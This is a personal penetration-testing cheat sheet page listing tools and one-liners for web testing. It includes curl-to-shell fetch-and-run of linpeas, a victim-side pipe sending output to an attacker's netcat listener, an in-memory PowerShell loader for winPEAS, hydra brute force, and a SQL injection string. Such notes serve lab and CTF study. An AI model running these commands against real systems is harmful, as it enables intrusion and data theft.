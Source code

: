 ```yaml
---
layout: single
classes: #wide
title: "General Info"
sidebar:
    title: "General Info"
    nav: infosec
collection: infopages
permalink: /infosec/general/
toc: true
toc_sticky: true
author_profile: true
---
```


# Welcome
Hi, this page is because I can't for the life of me remember my options when I am trying to web-test.  

# General tips
flask -> usually jinja2  
```2> /dev/null``` - hides error output  

# Tmux
`tmux a` - attaches session
`tmux -S <name>` - attaches file session or creates one of that name

# Brute-Force
ffuf  
cme - SMB brute force tool  

## hydra:  
* ``
ex: ```hydra -l usr -P pass.txt ssh://www.example.com```

# Listeners
wireshark - self explanitory  
nc - net cat is a good listner
* Example usage: nc -lvnp 

# Wordlists
/usr/share/wordlists/  
* /seclists

# Network 
```python http.server``` - v3 python  
* Spawns python server

netexec:  
* Network service exploitation tool
* Helps automate assessing large networks


# Linpeas & Winpeas
[Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):  
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh `  
`python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')" `  

filter to host machine:  
`nc -lvnp 9002 | tee linpeas.out` # host  
`curl $ip:8000/linpeas.sh | sh | nc $ip 9002` # victim  


[Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS):  
url =   
`$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" `  
One liner to download and execute winPEASany from memory in a PS shell  
`$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("") `

## LINPEAS VIEWING
`less -r <outputfile>` - color codes everythign properly

# Other
Pspy - inspect application  
`powershell -c` - allows for powershell command    
Exiftool - analyzing metadata


# Refrance links 
tbd

# Post exploit
Exiftool - analyzing meta data
look for weird configs  
linpeas.sh big

# SQL
`' or 1=1 -- -`  

## SQL Map
`sqlmap -r request.txt --dbms=<db> --dump`
- dumps off request to site, attempts to do a sqli

# SSH
`ssh -L <port>:website:80 <user>@myserver`  
- port forwarding, allowing access to website from myserver  
`ssh -R <port>:website:80 <user>@myserver`  
- reverse forwarding, allowing others to view your traffic


# Sockets
`ss -tulpn` (tcp, udp, listenting only, process using socket, dont respolve service names)  
 


     

